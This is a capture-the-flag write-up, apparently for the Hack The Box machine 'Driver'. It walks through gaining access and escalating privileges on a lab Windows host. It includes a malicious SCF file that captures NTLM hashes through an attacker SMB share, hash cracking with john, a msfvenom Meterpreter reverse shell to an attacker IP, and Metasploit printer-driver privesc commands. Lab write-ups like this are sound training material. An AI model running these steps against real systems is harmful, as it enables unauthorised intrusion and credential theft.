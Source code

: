 # Driver

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.238
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 09:26 EDT
Nmap scan report for 10.129.95.238
Host is up (0.015s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman
```

Interestingly, WinRM is open.&#x20;

### SCF Exploit --> Creds

Port 80 requires credentials to access.

<figure><img src="../../../.gitbook/assets/image (93) (1).png" alt=""><figcaption></figcaption></figure>

I tested weak credentials of `admin:admin`, and it worked. The page is some type of printer service panel.

<figure><img src="../../../.gitbook/assets/image (25) (7).png" alt=""><figcaption></figcaption></figure>

The only working part is the Firmware Updates, which redirects us to this page:

<figure><img src="../../../.gitbook/assets/image (6) (6) (3).png" alt=""><figcaption></figcaption></figure>

This would take any file and upload them to the file share, and a user would open it. Because it uploads to SMB, we can create a malicious SCF File to exploit this.

{% embed url="https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/" %}

This uses the SCF file to access our machine via SMB, and `responder` would capture the hash. Create an SCF file like so and start `responder`.&#x20;

```
[Shell]
Command=2
IconFile=\\10.10.14.13\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Once uploaded, `responder` would capture a hash:

<figure><img src="../../../.gitbook/assets/image (5) (9) (2) (2).png" alt=""><figcaption></figcaption></figure>

This can be cracked easily:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash             
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)     
1g 0:00:00:00 DONE (2023-05-06 09:34) 100.0g/s 3276Kp/s 3276Kc/s 3276KC/s !!!!!!..eatme1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

We can then log in using `evil-winrm` since port 5985 is open.

<figure><img src="../../../.gitbook/assets/image (16) (8).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Printer Driver Exploit

I ran a WinPEAS scan to enumerate for me. While reading the output, we can see that there's Powershell history files:

<figure><img src="../../../.gitbook/assets/image (84) (5).png" alt=""><figcaption></figcaption></figure>

Here's the file content:

```
*Evil-WinRM* PS C:\Users\tony\Documents> type C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'
```

This, combined with the box name was a hint that we had to expoloit this specific driver somehow. I could only find Metasploit exploits, so let's use that. First we have to generate a Meterpreter reverse shell.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.13 LPORT=4444 -f exe -o meter.exe
```

Then, we need to upload it and start `exploit/multi/handler`.&#x20;

<figure><img src="../../../.gitbook/assets/image (611).png" alt=""><figcaption></figcaption></figure>

Then, we need to first run `migrate -N explorer.exe` , then `background` this and use the `exploit/windows/local/ricoh_driver_privesc` module. Then, run the following:

```
set payload windows/x64/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 5555
exploit
```

Afterwards, we would get a shell as the SYSTEM user.

<figure><img src="../../../.gitbook/assets/image (568).png" alt=""><figcaption></figcaption></figure>

Rooted!
